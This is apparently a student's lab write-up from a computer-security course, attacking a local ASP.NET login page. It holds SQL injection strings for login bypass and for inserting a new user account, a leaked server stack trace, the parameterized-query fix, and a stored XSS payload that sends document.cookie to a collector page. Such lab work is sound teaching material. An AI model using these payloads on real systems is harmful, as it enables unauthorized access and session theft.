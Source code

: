 #Task 1

' or '1'='1


#Task 2

After inserting wrong SQL injection we get part of source code that caused exception.

http://localhost:49834/login.aspx


Server Error in '/' Application.
Incorrect syntax near 'wrong'.
Unclosed quotation mark after the character string '" ---' AND Password='''.
Description: An unhandled exception occurred during the execution of the current web request. Please review the stack trace for more information about the error and where it originated in the code.

Exception Details: System.Data.SqlClient.SqlException: Incorrect syntax near 'wrong'.
Unclosed quotation mark after the character string '" ---' AND Password='''.

Source Error:


Line 25:             SqlCommand sqlc = new SqlCommand("SELECT Record FROM Table_Users WHERE Username='" + username + "' AND Password='" + password + "'");
Line 26:             sqlc.Connection = conn;
Line 27:             SqlDataReader sdr = sqlc.ExecuteReader();
Line 28:             if (sdr.HasRows == false)
Line 29:             {


Source File: E:\EDA263_Computer-Security\EDA263_CODE\Lab4\cs_lab4\myWebApplication\SQLaccess.cs    Line: 27

Stack Trace:


[SqlException (0x80131904): Incorrect syntax near 'wrong'.
Unclosed quotation mark after the character string '" ---' AND Password='''.]
   System.Data.SqlClient.SqlConnection.OnError(SqlException exception, Boolean breakConnection, Action`1 wrapCloseInAction) +2444190
   System.Data.SqlClient.SqlInternalConnection.OnError(SqlException exception, Boolean breakConnection, Action`1 wrapCloseInAction) +5775712
   System.Data.SqlClient.TdsParser.ThrowExceptionAndWarning(TdsParserStateObject stateObj, Boolean callerHasConnectionLock, Boolean asyncClose) +285
   System.Data.SqlClient.TdsParser.TryRun(RunBehavior runBehavior, SqlCommand cmdHandler, SqlDataReader dataStream, BulkCopySimpleResultSet bulkCopyHandler, TdsParserStateObject stateObj, Boolean& dataReady) +4169
   System.Data.SqlClient.SqlDataReader.TryConsumeMetaData() +58
   System.Data.SqlClient.SqlDataReader.get_MetaData() +89
   System.Data.SqlClient.SqlCommand.FinishExecuteReader(SqlDataReader ds, RunBehavior runBehavior, String resetOptionsString, Boolean isInternal, Boolean forDescribeParameterEncryption) +409
   System.Data.SqlClient.SqlCommand.RunExecuteReaderTds(CommandBehavior cmdBehavior, RunBehavior runBehavior, Boolean returnStream, Boolean async, Int32 timeout, Task& task, Boolean asyncWrite, Boolean inRetry, SqlDataReader ds, Boolean describeParameterEncryptionRequest) +2127
   System.Data.SqlClient.SqlCommand.RunExecuteReader(CommandBehavior cmdBehavior, RunBehavior runBehavior, Boolean returnStream, String method, TaskCompletionSource`1 completion, Int32 timeout, Task& task, Boolean& usedCache, Boolean asyncWrite, Boolean inRetry) +911
   System.Data.SqlClient.SqlCommand.RunExecuteReader(CommandBehavior cmdBehavior, RunBehavior runBehavior, Boolean returnStream, String method) +64
   System.Data.SqlClient.SqlCommand.ExecuteReader(CommandBehavior behavior, String method) +240
   System.Data.SqlClient.SqlCommand.ExecuteReader() +99
   myWebApplication.SQLaccess.checkUserPass(String username, String password) in E:\EDA263_Computer-Security\EDA263_CODE\Lab4\cs_lab4\myWebApplication\SQLaccess.cs:27
   myWebApplication.login.submit_Click(Object sender, EventArgs e) in E:\EDA263_Computer-Security\EDA263_CODE\Lab4\cs_lab4\myWebApplication\login.aspx.cs:21
   System.Web.UI.WebControls.Button.OnClick(EventArgs e) +9815206
   System.Web.UI.WebControls.Button.RaisePostBackEvent(String eventArgument) +204
   System.Web.UI.WebControls.Button.System.Web.UI.IPostBackEventHandler.RaisePostBackEvent(String eventArgument) +12
   System.Web.UI.Page.RaisePostBackEvent(IPostBackEventHandler sourceControl, String eventArgument) +15
   System.Web.UI.Page.RaisePostBackEvent(NameValueCollection postData) +35
   System.Web.UI.Page.ProcessRequestMain(Boolean includeStagesBeforeAsyncPoint, Boolean includeStagesAfterAsyncPoint) +1639


Version Information: Microsoft .NET Framework Version:4.0.30319; ASP.NET Version:4.7.2633.0 


# Task 3

- With the information you found in the debugging output, what can you do? 
- Can you create a new account without having administrative privileges? 
- How did you do it?

SqlCommand sqlc = new SqlCommand("SELECT Record FROM Table_Users WHERE Username='" + username + "' AND Password='" + password + "'");

Comment will do nothing:
`--`

'; ... ;-- 

"SELECT Record FROM Table_Users WHERE Username=''; ... ;-- ' AND Password=''"

'; INSERT INTO Table_Users (Username, Password) VALUES ('adminxxx','adminxxx') ;-- 

' except CREATE TABLE Table_Users (Username varchar(30), Password varchar(30)) ; -- 


# Task 4

//Task 4: uncomment here
SqlCommand sqlc = new SqlCommand("SELECT Record FROM Table_Users WHERE Username=@username AND Password=@password");
sqlc.Parameters.AddWithValue("@username", username);
sqlc.Parameters.AddWithValue("@password", password);

# Task 5

Cross-site scripting:

Go to feedback and upload:
%3cscript>document.write('%3cimg src="http://localhost:49834/WriteCookie.aspx?Cookie='%2bdocument.cookie%2b'">');%3c/script>



